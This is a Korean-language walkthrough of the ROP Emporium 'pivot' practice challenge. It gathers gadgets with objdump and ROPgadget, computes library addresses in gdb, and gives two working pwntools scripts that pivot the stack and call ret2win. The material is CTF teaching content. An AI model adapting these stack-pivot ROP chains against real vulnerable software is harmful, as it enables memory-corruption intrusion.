 # [pivot](https://ropemporium.com/challenge/pivot.html)
<br />

**Description:**
> There's only enough space for a small ROP chain on the stack,
but you've been given space to stash a much larger chain elsewhere.
Learn how to pivot the stack onto a new location.

<br />
<br />

# x86_64

**Binary Protections:**
```yaml
pivot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0e9fb878206e1858b042597fd36c51aa07497121, not stripped

[*] '/home/kali/ROP/pivot'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
<br />

문제에서 제공되는 바이너리에는 라이브러리로부터 링크되어 있지 않은 함수 `ret2win` 이 포함되어 있으며, 이 함수의 실제 주소를 계산하여 직접 호출하는 것으로 문제를 풀 수 있습니다.

문제를 풀기 위해서 필요한 가젯을 찾겠습니다.

```yaml
$ objdump -d pivot
Disassembly of section .text:
...
00000000004009a8 <uselessFunction>:
  4009a8:       55                      push   %rbp
  4009a9:       48 89 e5                mov    %rsp,%rbp
  4009ac:       e8 6f fd ff ff          call   400720 <foothold_function@plt>
  4009b1:       bf 01 00 00 00          mov    $0x1,%edi
  4009b6:       e8 95 fd ff ff          call   400750 <exit@plt>

00000000004009bb <usefulGadgets>:
  4009bb:       58                      pop    %rax
  4009bc:       c3                      ret
  4009bd:       48 94                   xchg   %rax,%rsp
  4009bf:       c3                      ret
  4009c0:       48 8b 00                mov    (%rax),%rax
  4009c3:       c3                      ret
  4009c4:       48 01 e8                add    %rbp,%rax
  4009c7:       c3                      ret
  4009c8:       0f 1f 84 00 00 00 00    nopl   0x0(%rax,%rax,1)
```
- `pop rax ; ret = 0x4009bb`
- `xchg rsp, rax ; ret = 0x4009bd`

`ret2win`의 실제 주소를 계산하기 위해서 제공된 주소를 가지고 라이브러리 베이스를 구하겠습니다.

<br />

```bash
$ gdb pivot -q
...
pwndbg> b *pwnme+113
Breakpoint 1 at 0x400962
pwndbg> r
...
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7ffff7a08f10
Send a ROP chain now and it will land there
>
...

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
	...
    0x7ffff7c00000     0x7ffff7c01000 r-xp     1000      0 /home/kali/ROP/libpivot.so
    0x7ffff7c01000     0x7ffff7e00000 ---p   1ff000   1000 /home/kali/ROP/libpivot.so
    0x7ffff7e00000     0x7ffff7e01000 r--p     1000      0 /home/kali/ROP/libpivot.so
    0x7ffff7e01000     0x7ffff7e02000 rw-p     1000   1000 /home/kali/ROP/libpivot.so
    ...

pwndbg> p/x 0x7ffff7c00000 - 0x7ffff7a08f10
$1 = 0x1f70f0
```
라이브러리 베이스와 제공된 버퍼의 거리는 `0x1f70f0` 입니다. 라이브러리 베이스에 `ret2win`의 심볼 주소를 더하면 `ret2win`의 실제 주소를 계산할 수 있습니다.

<br />

```yaml
$ readelf -s libpivot.so | grep ret2win
    18: 0000000000000a81   146 FUNC    GLOBAL DEFAULT   12 ret2win
    48: 0000000000000a81   146 FUNC    GLOBAL DEFAULT   12 ret2win
```
`ret2win`의 심볼 주소는 `0xa81`입니다. 위 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = 'error'
context.arch = 'amd64'

p = process('./pivot')

pop_rax = 0x4009bb
xchg = 0x4009bd

p.recvuntil(b'0x')
buf = int(p.recvline()[:-1], 16)
libc_base = buf + 0x1f70f0
ret2win = libc_base + 0xa81

pay = flat({40:pop_rax}, buf, xchg)

p.sendlineafter(b'>', p64(ret2win))
p.sendlineafter(b'>', pay)
p.interactive()
```
```bash
$ python3 test.py
Thank you!
ROPE{a_placeholder_32byte_flag!}
$
```
***

<br />

위처럼 라이브러리 베이스에 심볼을 더해 실제 주소를 구하는 방법도 있지만, 문제에서 의도하는 방법으로 풀면 아래처럼 풀이할 수 있습니다.

<br />

```yaml
$ objdump -d pivot
Disassembly of section .text:
...
00000000004009a8 <uselessFunction>:
  4009a8:       55                      push   %rbp
  4009a9:       48 89 e5                mov    %rsp,%rbp
  4009ac:       e8 6f fd ff ff          call   400720 <foothold_function@plt>
  4009b1:       bf 01 00 00 00          mov    $0x1,%edi
  4009b6:       e8 95 fd ff ff          call   400750 <exit@plt>

00000000004009bb <usefulGadgets>:
  4009bb:       58                      pop    %rax
  4009bc:       c3                      ret
  4009bd:       48 94                   xchg   %rax,%rsp
  4009bf:       c3                      ret
  4009c0:       48 8b 00                mov    (%rax),%rax
  4009c3:       c3                      ret
  4009c4:       48 01 e8                add    %rbp,%rax
  4009c7:       c3                      ret
  4009c8:       0f 1f 84 00 00 00 00    nopl   0x0(%rax,%rax,1)
```
```yaml
$ ROPgadget --binary pivot | grep "pop rbp"
0x00000000004007c8 : pop rbp ; ret
```
```yaml
$ ROPgadget --binary pivot | grep "call rax"
0x00000000004006b0 : call rax
```
- `pop rax ; ret = 0x4009bb`
- `xchg rsp, rax ; ret = 0x4009bd`
- `mov rax, [rax] ; ret = 0x4009c0`
- `add rax, rbp ; ret = 0x4009c4`
- `pop rbp ; ret = 0x4007c8`
- `call rax = 0x4006b0`

필요한 가젯을 전부 구했으므로, `ret2win`의 실제 주소만 구하면 됩니다. `foothold` 함수로 `ret2win`과의 거리를 계산할 수 있습니다.

<br />

```yaml
$ readelf -s libpivot.so | grep ret2win
    48: 0000000000000a81   146 FUNC    GLOBAL DEFAULT   12 ret2win
$ readelf -s libpivot.so | grep foothold
    55: 000000000000096a    19 FUNC    GLOBAL DEFAULT   12 foothold_function
```
두 주소의 거리는 `0x117` 입니다.

위에서 구한 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = 'error'
context.arch = 'amd64'

e = ELF("./pivot")
p = e.process()

p.recvuntil(b'0x')
buf_addr = int(p.recvline()[:-1], 16)

foothold_plt = e.plt["foothold_function"]
foothold_got = e.got["foothold_function"]
add_rax_rbp = 0x4009c4
pop_rbp = 0x4007c8
pop_rax = 0x4009bb
mov_rax = 0x4009c0
call_rax = 0x4006b0
xchg = 0x4009bd

pay = flat(
	foothold_plt,          # call foothold_function@plt
	pop_rax, foothold_got, # rax = [foothold_function@got]
	mov_rax,               # rax = foothold_function@got
	pop_rbp, 0x117,        # rbp = 0x117
	add_rax_rbp,           # rax = ret2win
	call_rax               # call ret2win
)

pay1 = flat({40:pop_rax}, buf_addr, xchg)

p.sendlineafter(b'>', pay)
p.sendlineafter(b'>', pay1)
p.interactive()
```
```bash
$ python3 test.py
Thank you!
foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot
ROPE{a_placeholder_32byte_flag!}
$
```
